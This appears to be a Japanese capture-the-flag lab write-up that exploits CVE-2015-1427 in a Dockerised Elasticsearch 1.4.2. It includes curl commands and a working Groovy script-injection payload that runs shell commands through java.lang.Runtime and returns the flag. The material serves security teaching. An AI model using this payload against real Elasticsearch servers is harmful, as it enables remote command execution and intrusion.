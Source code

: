 # elasticsearch演習
## 概要
CVE-2015-1427を使う問題

最近でも観測されている  
https://www.f5.com/labs/articles/threat-intelligence/vulnerabilities--exploits--and-malware-driving-attack-campaigns-in-december-2019

以下参照  
https://github.com/t0kx/exploit-CVE-2015-1427

## Exploit
local上ではelassticsearchをlocalhostに変更

まずコンテナを起動

```
$ docker build -t cve-2015-1427 .
$ docker run --name es -d -p 9200:9200 cve-2015-1427
```

まず/を叩くとElasticsearchのバージョンが1.4.2であることが分かり、CVE-2015-1427の該当バージョンであることが分かる

```
$ curl http://elasticsearch:9200
{
  "status" : 200,
  "name" : "Harpoon",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.4.2",
    "build_hash" : "927caff6f05403e936c20bf4529f144f0c89fd8c",
    "build_timestamp" : "2014-12-16T14:11:12Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.2"
  },
  "tagline" : "You Know, for Search"
}
```

データがないとhitが0件でscriptが実行されないので適当にデータを入れる

```
$ curl -XPUT http://elasticsearch:9200/seccamp/user/yamada -d '{"name" : "Taro Yamada"}'
```

あとはgroovy scriptを実行する

```
$ curl -s http://elasticsearch:9200/_search\?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /flag.txt\").getText()"}}}'
{
  "took" : 4,
  "timed_out" : false,
  "_shards" : {
    "total" : 5,
    "successful" : 5,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 1.0,
    "hits" : [ {
      "_index" : "blog",
      "_type" : "user",
      "_id" : "dilbert",
      "_score" : 1.0,
      "fields" : {
        "myscript" : [ "flag{e14st1cse4rch_cve_2015_1427}\n" ]
      }
    } ]
  }
}
```


